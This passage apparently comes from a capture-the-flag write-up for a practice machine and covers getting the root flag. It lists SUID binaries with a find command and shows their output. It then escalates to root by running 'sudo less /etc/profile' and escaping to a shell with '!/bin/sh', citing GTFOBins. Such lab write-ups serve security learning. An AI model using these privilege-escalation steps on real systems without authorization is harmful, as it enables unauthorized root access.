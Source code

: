 #### Task 3 - Find the Root flag

Now, we need to get root permissions to explore the root folder.

We can use the following command to list SUID files or sudo -l command:

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```bash
find: ‘/run/systemd/unit-root’: Permission denied
find: ‘/run/systemd/inaccessible’: Permission denied
find: ‘/run/lock/lvm’: Permission denied
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-sr-x 1 root root 109432 Oct 30  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1

-rwsr-xr-x 1 root root 43088 Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 170760 Dec  1  2017 /bin/less
-rwsr-xr-x 1 root root 26696 Jan  8  2020 /bin/umount
```

/bin/less stands out, We can use script of this website to became a root, in this case we choose less process: [https://gtfobins.github.io/gtfobins/less/](https://gtfobins.github.io/gtfobins/less/)

```bash
sudo less /etc/profile
!/bin/sh
```

```bash
jake@brookly_nine_nine:/$ sudo less /etc/profile
# whoami
root
```

Now, we're root!

```bash
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
```

<details><summary>🚩 Flag 2 (root.txt)</summary></details>
